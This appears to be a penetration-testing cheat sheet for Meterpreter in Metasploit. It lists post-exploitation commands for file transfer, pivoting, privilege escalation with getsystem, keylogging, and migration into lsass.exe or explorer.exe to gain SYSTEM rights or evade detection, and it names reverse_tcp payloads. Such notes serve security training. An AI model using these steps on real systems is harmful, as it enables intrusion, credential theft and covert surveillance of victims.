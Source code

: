 Meterpreter is an advanced and flexible payload used in **Metasploit Framework**, designed for post-exploitation tasks after successfully exploiting a target system. It allows attackers (or ethical hackers) to interact with and control the compromised system remotely, offering numerous features for pivoting, escalation, and lateral movement.

## Common Meterpreter Commands

1. **Basic Commands**:
- `sysinfo`: Displays system information (OS, architecture, logged-in users).
- `getuid`: Displays the current user ID.
- `shell`: Opens a system shell for further command execution.
2. **File Management**:
- `upload <local_path> <remote_path>`: Uploads files to the target system.
- `download <remote_path> <local_path>`: Downloads files from the target system.
3. **Network & Post-Exploitation**:
- `portfwd`: Forwards ports between the target machine and the attacker's machine.
- `route`: Manages routes for pivoting through compromised systems to reach other targets on the same network.
4. **Privilege Escalation**:      
- `getsystem`: Attempts to escalate privileges to SYSTEM.
- `migrate`: Migrates the Meterpreter session to another process (often a more stable one).
6. **Keylogging**:    
- `keyscan_start`: Starts logging keystrokes on the victim's system.
- `keyscan_dump`: Displays the captured keystrokes.

## Process migration
**Process migration** in exploitation involves moving a Meterpreter session from the process where the initial payload is running to a more stable or advantageous process on the target system. This is typically done to maintain session stability, evade detection, or elevate privileges. When migrating to a process like `lsass.exe`, the session inherits the process's privileges, which are often at the highest level (NT AUTHORITY\SYSTEM).

In contrast, migrating to other processes, such as `explorer.exe`, may not elevate privileges but can serve as a means of camouflaging the session within a less monitored or critical process. 

#### Execution
1. **Search for a Specific Process**
```bash
meterpreter > pgrep lsass
# Or
meterpreter > pgrep explorer
```
This will return the PID of the `lsass.exe` or `explorer.exe` process.

2. **Migrate to the Desired Process**
```bash
meterpreter > migrate <PID>
```


## Ensuring correct payload
Verify that you are using the correct payload that matches the architecture of the target system (32-bit vs. 64-bit). For instance:
- For 32-bit systems, use `windows/meterpreter/reverse_tcp`.
- For 64-bit systems, use `windows/x64/meterpreter/reverse_tcp`.

If the wrong payload is used, you may establish a connection but fail to create the Meterpreter session, as the payload will not be compatible with the target architecture.

